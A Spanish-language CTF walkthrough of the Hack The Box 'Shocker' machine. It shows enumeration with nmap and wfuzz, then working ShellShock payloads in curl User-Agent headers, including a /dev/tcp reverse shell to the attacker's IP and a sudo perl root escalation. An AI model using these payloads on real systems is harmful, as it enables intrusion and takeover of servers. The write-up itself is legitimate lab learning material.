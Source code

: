 ```yaml
---
layout: single
title: Hack the box-Shocker 
excerpt: "Maquina Shocker hack the box"
date: 2021-08-26
classes: wide
header:
  teaser: /assets/images/shocker/shocker.jpg
  teaser_home_page: true
categories:
  -HTB -CTF
tags:  
  - HTB
  - enumeration
  - explotacion
---
```


Esta es una resolucion completa de la maquina shocker de hack the box una maquina linux de 64 bits.
### Nivel de dificultad:

Intrusion = facil.

Escala de privilegios = facil. 
## Reconocimiento general de la maquina 
### Reconocimiento de puertos
Realizamos el escaneo con nmap 
```
nmap -p- --open -n -T5 -v 10.10.10.56
```
### Salida de nmap: 
<p align="left">
<img src="/assets/images/shocker/salida-shocker.png">
</p>

## Vemos que tiene un servidor http por el puerto 80 al entrar a esa pagina web vemos la suigente imagen:
<p align="left">
<img src="/assets/images/shocker/web-shocker.png">
</p>

### El codigo fuente muestra esto:
<p align="left">
<img src="/assets/images/shocker/codigofuente-shocker.png">
</p>
### Wappalyzer:
<p align="left">
<img src="/assets/images/shocker/wapalyzer.png">
</p>
### Uso de wfuzz en busca de rutas potenciales:
```
wfuzz -c -w /usr/share/dirb/wordlists/common.txt http://10.10.10.56/FUZZ
```
Ocupe el diccionario /usr/share/dirb/wordlists/common.txt de dirbuster pero otros diccionarios pueden dar los mismos resultados
### Salida de wfuzz:
<p align="left">
<img src="/assets/images/shocker/wfuzz.png">
</p>
Podemos ver un directorio cgi-bin/

### cgi-bin/
Esta carpeta se usa principalmente para guardar archivos con la extension cgi pero no es una obligacion que tengan esta extension para ser guardados aqui
### Archivos .cgi 
Estos archivos son utilizados principalmente para realizar tareas que no son soportadas por el estandar html 

Ej:

Base de datos

Contadores 

### Uso de wfuzz para encontrar archivos con diferentes extensiones:
Creamos un diccionario con extensiones variadas para luego usarlo

extensiones.txt
```
html 
php
pl
cgi 
txt
sh 
```
Uso de wfuzz con dos diccionarios 
```
wfuzz -c --hc=440 -t 500 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -w extensiones.txt http://10.10.10.56/cgi-bin/FUZZ.FUZ2Z
```
Encontramos un archivo user-sh
<p align="left">
<img src="/assets/images/shocker/user-sh.png">
</p>
Entramos al recurso /cgi-bin/user.sh
<p align="left">
<img src="/assets/images/shocker/recurso.png">
</p>

## Intrusion a la maquina 
Para ganar acceso a la maquina realizaremos un ataque ShellShock 
en esta mapa en especifico habra que probar hacer un aislamiento de comandos con echo;
### Ganamos ejecucion remota de comandos
```
curl -H "User-Agent: () { :; }; echo; echo; /usr/bin/whoami" http://10.10.10.56/cgi-bin/user.sh
```
### Ganamos una shell 
Nos ponemos en escucha con netcat 
```
nc -nlvp 443
```
Ahora ganamos la shell
```
curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'bash -l >& /dev/tcp/(nuestra ip)/443 0>&1" http://10.10.10.56/cgi-bin/user.sh
```
Hacemos un tratamiento de la TTY (Tengo un articulo explicando como hacer un tratamiento de la  TTY)

Realizado el tratamiento de la  TTY tendriamos acceso a la maquina con el usuario shelly y tendriamos acceso a la flag del usuario.
## Escala de privilegios 
Con el comando 
```
sudo -l
```
podemos ver que el usuario root permite ejecutar el comando perl sin necesidad de contraseña

esta pagina nos muestra algunos comandos para escalar privilegios segun los comandos que se nos permita ejecutar
https://gtfobins.github.io/
* [https://gtfobins.github.io/](https://gtfobins.github.io/)
Podemos ejecutar un comando perl para poder escalar privilegios
```
sudo perl -e 'exec "/bin/sh";'
```
Ahora ya tendriamos acceso a root y a su flag.
